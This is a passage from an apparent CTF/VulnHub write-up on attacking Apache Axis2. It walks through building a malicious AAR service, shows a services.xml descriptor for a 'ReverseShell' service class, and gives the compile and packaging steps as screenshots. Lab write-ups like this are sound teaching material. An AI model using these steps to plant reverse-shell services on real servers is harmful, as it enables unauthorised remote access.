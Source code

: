 ![](https://github.com/siunam321/CTF-Writeups/blob/main/VulnHub/Pentester-Lab:Axis2-Web-service-and-Tomcat-Manager/images/Pasted%20image%2020231212213735.png)

- Inside that directory, copy the following XML code to a file called `services.xml`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<service name="ReverseShell" targetNamespace="http://ws.apache.org/ax2">
    <description>Your lovely Axis2 AAR reverse shell</description>
    <messageReceivers>
        <messageReceiver mep="http://www.w3.org/2004/08/wsdl/in-only" class="org.apache.axis2.rpc.receivers.RPCInOnlyMessageReceiver" />
        <messageReceiver  mep="http://www.w3.org/2004/08/wsdl/in-out"  class="org.apache.axis2.rpc.receivers.RPCMessageReceiver"/>
    </messageReceivers>
    <parameter name="ServiceClass">ReverseShell</parameter>
</service>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/VulnHub/Pentester-Lab:Axis2-Web-service-and-Tomcat-Manager/images/Pasted%20image%2020231212213841.png)

- Compile the Java code to a `.class` file:

![](https://github.com/siunam321/CTF-Writeups/blob/main/VulnHub/Pentester-Lab:Axis2-Web-service-and-Tomcat-Manager/images/Pasted%20image%2020231212213927.png)

- Create an AAR archive file for the deployment of our Axis2 service:

![](https://github.com/siunam321/CTF-Writeups/blob/main/VulnHub/Pentester-Lab:Axis2-Web-service-and-Tomcat-Manager/images/Pasted%20image%2020231212214013.png)
